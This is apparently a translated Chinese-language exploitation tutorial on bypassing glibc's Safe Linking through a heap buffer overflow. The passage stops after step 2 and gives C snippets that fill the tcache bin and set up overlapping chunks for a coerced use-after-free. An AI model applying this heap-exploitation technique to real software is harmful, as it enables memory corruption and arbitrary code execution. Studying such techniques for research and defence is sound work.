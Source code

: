 通过控制对象的分配/释放以及读/写这些对象中的字段，可以通过一个堆缓冲区溢出绕过Safe Linking。从2020年5月21日开始对glibc的主分支进行测试(commit 76d5b2f002a1243ddba06bd646249553353f4322)，它也适用于glibc 2.31，因为`L&gt;&gt;12`掩码将是0，因为没有PROTECT_PTR宏。

通常的目标是利用缓冲区溢出来覆盖chunk,这允许我们保留指向同一chunk的两个指针。虽然我们将使用此方法通过UAF和double-free 来读/写`P'`，但需要注意的是，原始程序不包含UAF或double-free，我们没有利用缓冲区溢出之外的第二个漏洞。不过，我们将触发两次缓冲区溢出以绕过一个不同的glibc缓解措施。



## 步骤1 – 分配chunk A、B、C、D并填充tcache bin

回顾一下，tcache有几个bin，每个bin最多可以保存七个相同大小的chunk。我们需要用free chunk来填充它。我们还需要四个连续的chunk(A、B、C和D),我们将使用它们来处理缓冲区溢出，并将它们合并到unsorted bin中。

```
// Allocate enough chunks that, when freed, will fill tcache bin
// Size needs to be large enough that freed chunks will go into
// unsorted bin after tcache is ful
for( int i = 0; i &lt; 7; i++) `{`
    tcache_allocs[i] = malloc(0x98);
`}`

// Allocate a, b, c, and d into contiguous memory. The plans are:
//    - a will be used for a buffer overflow into b, to overcome 
//      the "corrupted size vs. previous size while
//      consolidating" mitigation
//    - b will be freed legitimately into unsorted bin, and
//      eventually consolidated
//    - c will become an overlapping chunk and leveraged into 
//     a coerced UAF
//    - d will be corrupted by a legit buffer overflow, freed
//      into unsorted list, and consolidated with chunks c and d
char *a = malloc(0x98);
char *b = malloc(0x98);
char *c = malloc(0x98);
char *d = malloc(0xb8);

// Fill up the tcache bin
for( int i = 0; i &lt; 7; i++) `{`
    free(tcache_allocs[i]);
    tcache_allocs[i] = 0;
```



## 步骤2 – 将B free 到 unsorted 中

现在，我们的tcache bin是空闲的，后续释放的这个大小将进入unsorted bin中。这很重要，因为在添加到unsorted bin时，相邻的free malloc_chunks会被合并。

```
// Release B into unsorted bin
free(b);
b = NULL;
```


